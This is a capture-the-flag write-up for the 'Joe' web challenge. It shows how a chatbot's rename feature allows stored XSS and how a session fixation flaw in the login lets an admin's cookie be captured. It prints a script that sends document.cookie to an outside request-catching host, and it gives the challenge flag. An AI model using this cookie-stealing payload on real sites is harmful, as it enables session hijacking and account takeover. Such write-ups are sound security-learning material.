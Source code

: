 # Joe ~ 90
Problem:
```
Meet our brand new personal assistant, Joe. He is the perfect talking partner if you want to have some small talk with a machine. We have put extra emphasis on security when developing Joe, but we'd like to invite you to participate in our H4x0r R3w4rd Pr06r4m (HRP) to help us make Joe even more secure. If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag.

Challenge running at https://joe.web.ctfcompetition.com/
```
![default](kapi-files/1.PNG)

After few look around we found that if we click on hyperlink then commands will prompt in our input.

> what is your name
> let me rename you
> do you know any puns
> what is the answer to the ultimate question
> report bug

**let me rename you** this command will let us change Joe's name to what ever we want and it's possible to inject XSS into that name which we will change to. We use [https://requestb.in](https://requestb.in) to setup temporary server to catch requests which could be generated from anywhere.

We change Joe's name into the following XSS and reload the page.
```javascript
<script>alert(1);</script>
``` 
![XSS](kapi-files/4.PNG)
As we expected the site is vulnerable to XSS. Now it could be roughly plan an attack to steal admin cookie by sending XSS-link to admin but how it could be. 

After reviewing login function we found that the login function has weakness called **session fixation** which is the session will be same value whenever we login or not. So if we pass this link to admin and let he participate to the link we might be able to catch admin's cookie.

The following is example of my login.
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

Now we prepare the exploitation by:
* Change Joe's name to JavaScript which will send cookies to our requestb.
* Report bug by sending our login URL with our token
* Admin should login to our session and his cookies should be sent to our reqestb.

## Setup XSS
By changing Joe's name to
```javascript
<script>document.write('<img src="https://requestb.in/our_resquestb_url?' + document.cookie);</script>
```
## Report bug
by sending 
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

We found a problem when we try to report the bug with very long URL.
![errorreportlongurl](kapi-files/8.PNG)

So we shortend it using goo.gl

Submit the bug again.
![submitbug](kapi-files/10.PNG)

## Reap our flag
![flag](kapi-files/9.PNG)

The flag was:
* CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!}; 

